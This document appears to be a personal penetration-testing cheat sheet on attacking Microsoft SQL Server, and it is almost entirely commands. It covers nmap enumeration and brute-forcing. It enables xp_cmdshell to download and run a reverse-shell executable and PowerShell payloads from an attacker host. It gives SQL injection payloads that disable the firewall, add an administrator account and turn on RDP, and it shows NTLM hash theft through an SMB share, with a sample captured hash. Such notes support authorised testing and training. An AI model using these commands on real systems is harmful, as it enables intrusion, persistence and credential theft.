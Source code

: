 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### Quick Enuemration
```bash - kali
nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 $TARGET
```

```bash - kali
nmap -p 1433 --script ms-sql-brute --script-args mssql.domain=DOMAIN,userdb=customuser.txt,passdb=custompass.txt,ms-sql-brute.brute-windows-accounts $TARGET
```

#### Connect with mssql-shell.rb  - 404 page
```bash - kali
wget https://raw.githubusercontent.com/dr0pb3ar/mssql-shell/master/mssql-shell.rb
```

```bash - kali
sudo gem install tiny_tds colorize
```

```bash - kali
sudo apt install freetds-dev
```

```bash - kali
chmod +x mssql-shell.rb
```

```bash - kali
sudo ./mssql-shell.rb -u $USER -p $PASSWORD $TARGET
```

```bash - kali
select @@version;
```

```bash - kali
:xp_cmdshell whoami
```

If this errors, just follow [[Port 1433 - MSSQL ~#sp_cmdshell]] or [[Port 1433 - MSSQL ~#xp_cmdshell]] to enable the feature.

[[1._Reverse Shells (WIN)]]

[[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

[[4._File Transfers]]

```bash - kali
:xp_cmdshell certutil -urlcache -split -f http://$KALI/reverse.exe 
```

[[rlwrap]]

```bash - kali
:xp_cmdshell reverse.exe 
```

#### Connect with mssql_shell.py - BROKEN?
```bash - kali
wget https://raw.githubusercontent.com/Alamot/code-snippets/master/mssql/mssql_shell.py
```

Input Target IP, username and password.

```bash - kali
python mssql_shell.py
```

#### Connect with MSSQLClient 
```bash - kali
mssqlclient.py $HOSTNAME$/$USER:'$PASSWORD'@$TARGET -windows-auth
```

#### Connect with sqsh

```bash - kali
sqsh -S $TARGET:1433 -U sa
```

```bash - kali
RPSsql12345
```

#### sp_cmdshell

You may have to enter "go" after every command!

![[Pasted image 20220408112248.png]]

```SQL
sp_configure 'show advanced options', '1'
```

```SQL
RECONFIGURE
```

```SQL
sp_configure 'xp_cmdshell', '1'
```

```SQL
RECONFIGURE
```

```SQL
EXEC master..xp_cmdshell 'whoami'
```

[[1._Reverse Shells (WIN)#Invoke-Powershell ps1]]

[[rlwrap]]

```SQL
EXEC xp_cmdshell 'echo IEX(New-Object Net.WebClient).DownloadString("http://$KALI/Invoke-PowerShellTcp.ps1") | powershell -noprofile'
```

#### xp_cmdshell
```SQL
enable_xp_cmdshell
```

```SQL
go
```

```SQL
xp_cmdshell 'date'
```

```SQL
 go
```

```SQL
xp_cmdshell whoami
```

```SQL
go
```

#### Powershell reverse shell
```python - kali
sudo python3 -m http.server 80
```

[[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

[[rlwrap]]

[[1._Reverse Shells (WIN)#Powershell reverse TCP]]

```SQL
xp_cmdshell "powershell IEX(New-Object Net.WebClient).DownloadString('http://$KALI:80/powershell_reverse_tcp.ps1') | powershell -noprofile -"
```

```SQL
go
```

Python:
```SQL
EXEC sp_execute_external_script @language = N'Python', @script = N'import os;os.system("whoami")'
```

[https://blog.netspi.com/hacking-sql-server-procedures-part-4-enumerating-domain-accounts/](https://blog.netspi.com/hacking-sql-server-procedures-part-4-enumerating-domain-accounts/)

#### xp_cmdshell RDP
```SQL
' UNION ALL SELECT 1,2--
```
  
```SQL
' UNION ALL SELECT @@version,2--
```

```SQL
' union select @@version,2; WAITFOR DELAY '0:0:5' ; --
```
   
```SQL
' union select @@version,2; EXEC sp_configure 'show advanced options', 1; WAITFOR DELAY '0:0:5' ; --
```

```SQL
' union select @@version,2; RECONFIGURE; --
```

```SQL
' union select @@version,2; EXEC sp_configure 'xp_cmdshell', 1; --
```

```SQL
' union select @@version,2; RECONFIGURE; --
```

```SQL
' union select @@version,2; exec master..xp_cmdshell 'ping localhost'; --
```

```SQL
' union select @@version,2; exec master..xp_cmdshell 'dir c:'; --
```

```SQL
' union select @@version,2; exec master..xp_cmdshell 'netsh advfirewall set allprofiles state off'; --
```

```SQL
' union select @@version,2; exec master..xp_cmdshell 'net user foobar Password123 /add'; --
```

```SQL
' union select @@version,2; exec master..xp_cmdshell 'net localgroup Administrators foobar /add'; --
```

```bash
rdesktop -a 16 -z -u foobar -p Password123 $TARGET
```

RDP was already enabled in the above example. If disabled, we can try enabling RDP with:

```SQL
' union select user,null; exec master..xp_cmdshell ''reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f''; --
```

#### Enumeration
```SQL
select @@version;
```

```SQL
SELECT * FROM fn_my_permissions(NULL, 'SERVER');
```

```SQL
SELECT name FROM master.sys.databases
```

```SQL
use volume
```

#### Steal NTLM hash
```bash - kali
mkdir share
```

```bash - kali
smbserver.py -smb2support share share/
```

```bash - kali
exec master..xp_dirtree '\\$KALI\share\',1,1 
```

`mssql-svc::$HOSTNAME:4141414141414141:fcf5ce3bc7c6f2d4cc186363f57a4afb:0101000000000000805cb28d9e1fd801cfdf67806cdb917000000000010010006e006b006f004f006c0070006b0049000200100061006800630076007a00630045005900030010006e006b006f004f006c0070006b0049000400100061006800630076007a0063004500590007000800805cb28d9e1fd80106000400020000000800300030000000000000000000000000300000bdca754ed8e5710ee15f0f7d0238f5927e0ad033b727c638d8831685eafab2d20a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310036002e003900000000000000000000000000`

![[TechLexicon/Penetration Testing/Reference/7._Tools/Hashcat#NetNTLMv2]]

#### Getting hashes with tftp

Using [[Abbreviated dir]]'s, we put together the path
`C:\PROGRA~1\MICROS~1\MSSQL1~1.SQL\MSSQL\DATA\master.mdf`

However, we cannot read from there, so we aim to the backup folder:
`"C:\PROGRA~1\MICROS~1\MSSQL1~1.SQL\MSSQL\Backup\master.mdf" $TARGET`

[[Port 69 - TFTP#tftp py]]

```bash - kali
git clone https://github.com/xpn/Powershell-PostExploitation && cd Powershell-PostExploitation/ && cd Invoke-MDFHashes
```

Load PowerShell in Kali:
```bash - kali
pwsh
```

```PowerShell - kali
Import-Module ./Get-MDFHashes.ps1
```

```PowerShell - kali
Add-Type -Path /home/kali/Desktop/$TARGET/Powershell-PostExploitation/Invoke-MDFHashes/OrcaMDF.Framework.dll
```

```PowerShell - kali
Add-Type -Path /home/kali/Desktop/$TARGET/Powershell-PostExploitation/Invoke-MDFHashes/OrcaMDF.RawCore.dll  
```

* Be sure to widen you terminal to see the whole hash!

```PowerShell - kali
Get-MDFHashes -mdf /home/kali/Desktop/$TARGET/master.mdf
```

